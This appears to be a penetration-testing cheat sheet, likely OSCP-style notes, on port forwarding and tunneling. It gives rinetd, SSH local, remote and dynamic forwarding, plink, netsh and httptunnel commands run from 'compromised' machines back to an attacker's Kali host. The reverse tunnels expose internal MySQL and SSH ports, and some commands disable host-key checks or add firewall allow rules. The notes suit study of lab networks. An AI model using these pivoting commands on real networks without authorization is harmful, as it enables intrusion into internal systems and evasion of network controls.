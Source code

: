 # Port Forwarding
## [rinetd](https://github.com/samhocevar/rinetd)
It is used for redirect any traffic received to an specific port
- In its config file we have to specify the bindaddress, bindport, connectaddress and connectport:
  ```bash
  kali@kali:~$ cat /etc/rinetd.conf
  ...
  # bindadress bindport connectaddress connectport
  0.0.0.0 80 216.58.207.142 80
  ...
  
  kali@kali:~$ sudo service rinetd restart
  ```
## SSH Local Port Forwarding
### Linux
```bash
kali@kali:~$ sudo ssh -N -L 0.0.0.0:1337:10.0.0.2:80 root@10.0.0.1
```
![image](https://user-images.githubusercontent.com/43812413/199309514-9603a925-3358-4fee-b289-955c892f04ed.png)

## SSH Remote Port Forwarding
### Linux
```bash
user1@debian:~$ ssh -N -R 10.11.0.4:2221:127.0.0.1:3306 kali@10.11.0.4
```

```bash
ssh -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" kali@10.11.0.4
```

#### SSH wothout password
```bash
# Compromised machine
mkdir keys
cd keys
ssh-keygen

#Kali
nano ~/.ssh/authorized_keys 
from="COMPRIMISED-IP",command="echo 'This account can only be used for port forwarding'", no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxO27JE5uXiHqoUUb4j9o/IPHxsPg+fflPKW4N6pK0ZXSmMfLhjaHyhUr4auF+hSnF2g1hN4N2Z4DjkfZ9f95O7Ox3m0oaUgEwHtZcwTNNLJiHs2fSs7ObLR+gZ23kaJ+TYM8ZIo/ENC68Py+NhtW1c2So95ARwCa/Hkb7kZ1xNo6f6rvCqXAyk/WZcBXxYkGqOLut3c5B+++6h3spOPlDkoPs8T5/wJNcn8i12Lex/d02iOWCLGEav2V1R9xk87xVdI6h5BPySl35+ZXOrzazbddS7MwGFz16coo+wbHbTR6P5fF9Z1Zm9O/US2LoqHxs7OxNq61BLtr4I/MDnin www-data@ubuntu

ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@10.11.0.4
```
### Windows
#### plink
```bash
 cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
 ```


## SSH Dynamic Port Forwarding
- With the **-D** flag we can set a SOCKS4/5 application proxy
  ```
  kali@kali:~$ sudo ssh -N -D 127.0.0.1:8080 user1@10.11.0.128

  kali@kali:~$ cat /etc/proxychains.conf
  ...
  [ProxyList]
  # add proxy here ...
  # meanwile
  # defaults set to "tor"
  socks5 127.0.0.1 8080
  ```

- With the **-R** option, by not including a host after the port, ssh is instructed to create a SOCKS proxy on our Kali Server
  ```bash
  ssh -f -N -R 1080 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /var/lib/mysql/.ssh/id_rsa kali@10.11.0.4
  ```
  

## NETSH Port Forwarding
- Installed by default on every modern version of Windows
- Windows system must have the *IP Helper* running and *IPv6* supports must be enabled.
```bash
C:\Windows\system32> netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110
```
- If theres is some rule in the Firewall that blocks the incoming connections to the specified port
```bash
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow
``````

# Tunneling
## httptunnel
- It is used when only HTTP traffic is allowed. If we have a compromised machines we can:
  1. Set-up a SSH Port Forwarding in the target machine, that forwards the traffic to another machine in its private network
    ```bash
    www-data@debian:/$ ssh -L 0.0.0.0:8888:192.168.1.110:3389 user1@127.0.0.1
    ```
  2. Set-up a HTTP Tunnel between our machine and the compromised one (the compromised one will re-forward the traffic to the port configured in the port forwarding)
    ```bash
    # at the compromised machine
    user1@debian:~$ hts --forward-port localhost:8888 1234
    
    # at our Kali
    htc --forward-port 8080 10.11.0.128:1234
    ```
    

